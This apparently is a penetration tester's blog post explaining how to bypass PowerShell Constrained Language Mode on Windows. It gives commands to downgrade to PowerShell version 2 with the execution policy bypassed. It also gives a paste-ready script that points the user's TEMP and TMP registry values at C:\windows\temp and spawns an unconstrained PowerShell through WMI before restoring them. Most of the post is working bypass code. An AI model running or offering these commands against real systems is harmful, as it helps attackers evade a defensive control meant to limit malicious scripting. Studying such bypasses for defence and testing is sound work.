 ```yaml
---
title:  "Bypassing CLM"
date:   2021-10-17 19:00:00 +0000
categories: [techniques]
tags: [windows, PowerShell]
---
```


It is common during engagements to find that CLM (Constrained Language Mode) is configured on PowerShell as a SafeGuard or control against malicous activity.
This is a common misconception as there are many ways that CLM can be bypassed.
First check that CLM is in place by executing the following:

```
$ExecutionContext.SessionState.LanguageMode
```

If you want to set the Session to CLM from Full for testing then run:

```
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

I will leave it to the reader to make sure that the default is using CLM and not Full mode if testing.

Or if you want to change the PowerShell version then simplay add the arguments as per above.

The most common route is to simply downgrade to version 2 by using the '--version 2' argument.


```
powershell.exe -Version 2
```

If you want to bypass the execution policy then append the following:

```
powershell.exe -Version 2 -ExecutionPolicy bypass
```

Although this will likely work if PowerShell version 2 is installed alot of tools may not work to their full potential or simply not fit into your requirements using the legacy version.

There are tools out there to help ofcourse, these are usually execuable files which will touch disk and may not be what you want to do.

The following method can be simply pasted into a PowerShell window and a new PowerShell session is spawned as either the current PowerShell Version, or if needed, you could change the version to any other (2,3,4,5,6,7)


```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Or if you want to change the PowerShell version then simply add the arguments as per above.

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe -Version 2 -ExecutionPolicy bypass"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```
